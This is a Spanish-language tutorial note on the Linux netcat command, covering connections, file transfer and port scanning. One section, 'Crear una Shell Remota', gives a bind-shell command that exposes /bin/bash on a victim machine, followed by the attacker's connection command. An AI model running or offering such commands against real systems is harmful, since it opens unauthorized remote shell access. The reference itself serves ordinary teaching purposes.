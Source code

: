 # Comando `netcat` (`nc`) en [[Linux]]

## ¿Qué es `netcat`?

`netcat` (`nc`) es una herramienta de línea de comandos que permite leer y escribir datos a través de conexiones de red utilizando los protocolos [[TCP]] y [[UDP]]. Se usa comúnmente para:

- Diagnóstico y depuración de redes.
- Transferencia de archivos.
- Creación de servidores y clientes simples.
- Escaneo de puertos.

## Sintaxis

```sh
nc [opciones] [host] [puerto]
```

## Uso Básico

### 1. Conectarse a un Servidor TCP

```sh
nc ejemplo.com 80
```

Abre una conexión TCP al puerto 80 de `ejemplo.com`.

### 2. Crear un Servidor TCP

```sh
nc -l -p 1234
```

Escucha conexiones entrantes en el puerto `1234`.

### 3. Enviar un Mensaje entre Dos Máquinas

En la máquina receptora:

```sh
nc -l -p 1234
```

En la máquina emisora:

```sh
echo "Hola desde el cliente" | nc IP_DEL_SERVIDOR 1234
```

### 4. Transferir un Archivo

En la máquina receptora:

```sh
nc -l -p 1234 > archivo_recibido.txt
```

En la máquina emisora:

```sh
nc IP_DEL_SERVIDOR 1234 < archivo.txt
```

## Escaneo de Puertos

Para verificar si un puerto está abierto en una máquina:

```sh
nc -z -v IP_OBJETIVO 80
```

Para escanear un rango de puertos:

```sh
nc -z -v IP_OBJETIVO 20-1000
```

## Crear una Shell Remota

Desde la máquina víctima (con acceso):

```sh
nc -l -p 4444 -e /bin/bash
```

Desde la máquina atacante:

```sh
nc IP_VÍCTIMA 4444
```

⚠️ **Nota:** Esto puede ser usado de forma maliciosa, por lo que se debe tener precaución al permitir conexiones entrantes.

## Opciones Comunes

|Opción|Descripción|
|---|---|
|`-l`|Escucha conexiones entrantes (modo servidor).|
|`-p`|Especifica el puerto a usar.|
|`-v`|Muestra información detallada de la conexión.|
|`-z`|Escaneo de puertos sin enviar datos.|
|`-e`|Ejecuta un programa después de establecer la conexión.|
|`-u`|Usa el protocolo UDP en lugar de TCP.|

## Consideraciones

- `netcat` es una herramienta poderosa y debe usarse con responsabilidad.
- No cifra los datos enviados, por lo que no es seguro para información sensible.
- Se recomienda usar `ncat` (versión más segura de `netcat` incluida en `nmap`) para conexiones cifradas.
